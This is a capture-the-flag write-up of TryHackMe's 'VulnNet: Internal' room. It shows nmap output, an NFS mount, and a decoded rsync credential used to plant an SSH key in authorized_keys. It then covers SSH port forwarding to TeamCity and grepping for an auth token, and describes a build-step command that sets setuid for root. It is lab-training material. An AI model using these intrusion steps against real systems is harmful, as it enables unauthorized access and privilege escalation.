 ```yaml
---
title: "VulnNet: Internal"
date: 2025-3-2
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

```
 nmap -sVC 10.10.45.251 -oA nmap           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 16:50 +0545
Nmap scan report for 10.10.45.251 (10.10.45.251)
Host is up (0.17s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36991/udp   mountd
|   100005  1,2,3      43419/tcp6  mountd
|   100005  1,2,3      48140/udp6  mountd
|   100005  1,2,3      56363/tcp   mountd
|   100021  1,3,4      37589/tcp6  nlockmgr
|   100021  1,3,4      38051/tcp   nlockmgr
|   100021  1,3,4      46207/udp   nlockmgr
|   100021  1,3,4      46756/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs         3-4 (RPC #100003)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2025-03-02T12:05:49+01:00
| smb2-time: 
|   date: 2025-03-02T11:05:49
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.29 seconds

```


We can see nfs shares.
![](Pasted%20image%2020250302165310.png)

We can mount it to our by this.
`sudo mount -v -t nfs 10.10.45.251:/opt/conf mnt`


We can also see this.
![](Pasted%20image%2020250302165541.png)

And this too.
![](Pasted%20image%2020250302165635.png)

Lots of services.

Lets enumerate all of them.
And we can get service.txt.
![](Pasted%20image%2020250302165950.png)
And we can get these.
![](Pasted%20image%2020250302170050.png)
hmm.
![](Pasted%20image%2020250302170132.png)

Lets enumerate further.
And we can find this in redis.conf file from that mount.
![](Pasted%20image%2020250302171223.png)
Now we can do this.
![](Pasted%20image%2020250302171247.png)
And doing keys all gave this.
![](Pasted%20image%2020250302171313.png)
And we got internal flag too.
![](Pasted%20image%2020250302171453.png)

## Foothold

I was new to this services,so i took the help of chatGPT and we could do this.
![](Pasted%20image%2020250302171803.png)

And decoding this gave this.
```
echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v

```

Hmm we got another password.
We can again do this.
`rsync rsync-connect@10.10.45.251::files --password-file=<(echo -n 'Hcg3HP67@TW@Bc72v')`
![](Pasted%20image%2020250302172040.png)

And we can see sys-internal.
`rsync rsync-connect@10.10.45.251::files/sys-internal/`
And files of home directory.
![](Pasted%20image%2020250302172128.png)

We can see .ssh directory.
So lets try to grab a ssh private key.
But its not there.
![](Pasted%20image%2020250302173426.png)

So lets try to add our public key there.
After searching for commands,we could do this.
`rsync -av ./authorized_keys rsync-connect@10.10.45.251::files/sys-internal/.ssh/`

So we will gonna put our public key in a file `authorized_keys` and transfer it to the .ssh directory.

Hmm and we can find user by this.
`rsync rsync-connect@10.10.45.251::files/sys-internal/../`
![](Pasted%20image%2020250302173515.png)

Lets try to do ssh on `sys-internal`.
And we were successful.
![](Pasted%20image%2020250302173626.png)

## Privilege escalation

Lets do privelege escalation.
Lets first run linpeas.sh here.

And we can see this `TeamCity` directory in `/`.
![](Pasted%20image%2020250302174812.png)

Lets enumerate.
And we can see something in port 8111.
![](Pasted%20image%2020250302180614.png)

Lets do port forwarding by ssh and check.
`ssh -i user -L 8111:localhost:8111 sys-internal@10.10.45.251`

Now lets check in our localhost.
![](Pasted%20image%2020250302180832.png)

Hmm but we needs creds.
And logging as super user needs Authentication token.
Hmm let try to find in that teampass directory.
`grep -r -i 'authorization\|token' .`

And we found something.
![](Pasted%20image%2020250302181717.png)

Hmmm.
Lets try it out.
And we could login with this one.
![](Pasted%20image%2020250302181816.png)

Lets see what can we do.
![](Pasted%20image%2020250302181856.png)

Hmm.
![](Pasted%20image%2020250302182119.png)

Interesting.
I guess we have to play around it for some time.
We could do this.
![](Pasted%20image%2020250302190457.png)

So we made this.
![](Pasted%20image%2020250302190642.png)
Lets skip this.

And we were stuck again.
After long time of search,we could edit build step and do like this.
![](Pasted%20image%2020250302190905.png)

Hmm lets select command line.
lets save this.
![](Pasted%20image%2020250302191121.png)
![](Pasted%20image%2020250302191143.png)

Lets try to run it and hope it works.
It worked but we forget gave setuid.
![](Pasted%20image%2020250302191302.png)

Lets try it again and give setuid this time.
And we did it.
![](Pasted%20image%2020250302191747.png)

So we made a new project as administrator.
And filled essential things.
And when it comes to `Build steps`,we change it to use commands and inserted a command that can give us root.
And got root.
![](Pasted%20image%2020250302192133.png)

Again learned so many things.
![](Pasted%20image%2020250302192231.png)

## Done.
Done.
